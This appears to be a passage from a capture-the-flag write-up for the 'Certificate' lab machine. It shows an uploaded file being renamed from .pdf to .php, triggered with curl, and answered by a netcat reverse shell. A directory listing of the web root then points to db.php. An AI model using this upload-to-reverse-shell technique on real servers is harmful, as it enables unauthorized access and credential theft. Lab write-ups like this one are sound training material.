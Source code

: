 A URL will look like:

```
http://certificate.htb/static/uploads/67db7d1b1b004bcdb4f6a514edd6fca8/normal.pdf
```

Change it to:

```
http://certificate.htb/static/uploads/67db7d1b1b004bcdb4f6a514edd6fca8/normal.php
```

Send a request through curl:

```
curl http://certificate.htb/static/uploads/67db7d1b1b004bcdb4f6a514edd6fca8/normal.php
```

And we get a session:


```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ nc -lvnp  1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.71] 57868

PS C:\xampp\htdocs\certificate.htb\static\uploads\67db7d1b1b004bcdb4f6a514edd6fca8> whoami
certificate\xamppuser
PS C:\xampp\htdocs\certificate.htb\static\uploads\67db7d1b1b004bcdb4f6a514edd6fca8>         
```

Under `C:\xampp\htdocs\certificate.htb` we have a `db.php` file.


```
PS C:\xampp\htdocs\certificate.htb> ls


    Directory: C:\xampp\htdocs\certificate.htb


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/26/2024   1:49 AM                static                                                                
-a----       12/24/2024  12:45 AM           7179 about.php                                                             
-a----       12/30/2024   1:50 PM          17197 blog.php                                                              
-a----       12/30/2024   2:02 PM           6560 contacts.php                                                          
-a----       12/24/2024   6:10 AM          15381 course-details.php                                                    
-a----       12/24/2024  12:53 AM           4632 courses.php                                                           
-a----       12/23/2024   4:46 AM            549 db.php                                                                
-a----       12/22/2024  10:07 AM           1647 feature-area-2.php                                                    
-a----       12/22/2024  10:22 AM           1331 feature-area.php                                                      
-a----       12/22/2024  10:16 AM           2955 footer.php                                                            
-a----       12/23/2024   5:13 AM           2351 header.php                                                            
-a----       12/24/2024  12:52 AM           9497 index.php                                                             
```